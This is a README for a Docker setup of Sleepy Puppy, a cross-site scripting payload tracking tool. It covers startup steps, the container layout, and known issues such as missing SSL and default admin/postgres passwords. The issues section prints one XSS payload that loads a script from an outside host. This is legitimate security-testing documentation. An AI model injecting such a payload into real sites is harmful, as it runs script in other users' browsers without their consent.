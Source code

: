 Sleepy Puppy ZeroToDocker
=======================


For full documentation, please see the [wiki](https://github.com/Netflix/sleepy-puppy/wiki).

This repo utilizes docker compose to launch a cluster of containers to support the sleepy-puppy project.  This is only meant to be used to **play**.  See the [Issues](#Issues) section for information regarding productionalizing these containers.

----------

###Requirements
* Latest version of [Docker Toolbox](https://www.docker.com/toolbox)
* Running boot2docker vm
* Terminal with all docker env variables set

Starting
-------------
First determine the ip address of your boot2docker vm

> boot2docker ip

Replace the host variable in `docker-compose.yaml` with that IP

```
    host: <YOUR IP ADDRESS HERE>
```

> docker-compose up

Stopping
-------------
> docker-compose stop

Try It Out
-------------
Launch web browser and connect to your docker container's IP over http. 
The default credientials are `admin/password`


Architecture
-------------

This project launches three containers:

 1. postgres:latest
 2. sleepy-puppy-nginx:0.2.0
 3. sleepy-puppy-web:0.2.0

Externally, only sleepy-puppy-nginx exposes any ports.  This container only exposes TCP 80.  See the [Issues](#Issues) section for an explanation of why TCP 443 was not exposed.


Issues
-------------

**No SSL**
Other containers in the zeroToDocker project use self-signed SSL certificates, as only the user will be required to have their browser accept this SSL cert.  For sleepy-puppy, the user, and anyone browsing any site with a sleepy-puppy payload would need to accept the self-signed SSL cert.

This is likely to cause confusion when trying to get a payload to fire.  To simplify the situation, the docker will not expose SSL.  To save a few characters and avoid mixed-content warnings, sleepy-puppy payloads exclude the protocol.

	> '"><script src=//ti.ht/x?u=2></script>

Because the payloads exclude the protocol, and the container is not listening on SSL, the payloads will only fire on HTTP (not HTTPS) sites.

If you plan to run this in production, you will need to obtain an SSL cert from a trusted source and modify the sleepy-puppy-nginx container to terminate the SSL.

----------

**Default credentials on the web UI**
The username for the sleepy-puppy web UI is `admin`.  The docker-compose.yml defines the password as `password` by setting the `DOCKER_ADMIN_PASS` environment variable.  

For production use, you will want to modify or remove this default account.

**Default Flask-Secret and CSRF-Secret**
The docker-compose.yml defines a `secret_key` and `csrf_session_key` environment variable which are passed into the Flask application.

For production use, you will want to modify these values.

**Default credentials on the postgres database**
The username for the postgres database is `postgres`.  The password for this database is actually set in the api-start.sh file found within the sleepy-puppy-web container.  This password is set to `password`.

You may wish to change this password for production use.


